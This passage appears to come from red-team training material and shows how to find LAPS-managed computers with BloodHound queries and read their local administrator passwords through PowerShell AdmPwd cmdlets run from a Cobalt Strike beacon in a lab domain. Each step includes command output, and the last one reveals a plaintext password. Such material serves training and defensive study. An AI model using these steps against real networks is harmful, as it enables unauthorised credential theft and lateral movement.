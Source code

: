   

BloodHound can also be used to find computers that have LAPS applied to them:

```
MATCH (c:Computer {haslaps: true}) RETURN c
```

  

And also any groups that have an edge to machines via LAPS:

```
MATCH p=(g:Group)-[:ReadLAPSPassword]->(c:Computer) RETURN p
```

![](https://rto-assets.s3.eu-west-2.amazonaws.com/laps/bloodhound-readlapspassword.png)

The native LAPS PowerShell cmdlets can be used if they're installed on a machine we have access to.

```
beacon> powershell Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS
```

`Find-AdmPwdExtendedRights` will list the principals allowed to read the LAPS password for machines in the given OU.

```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Find-AdmPwdExtendedRights -Identity Workstations | fl

ObjectDN             : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
ExtendedRightHolders : {NT AUTHORITY\SYSTEM, DEV\Domain Admins, DEV\1st Line Support}
```

Since Domain Admins can read all the LAPS password attributes, `Get-AdmPwdPassword` will do just that.

```
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : WRSZV43u16qkc1
ExpirationTimestamp : 5/20/2021 12:57:36 PM
```
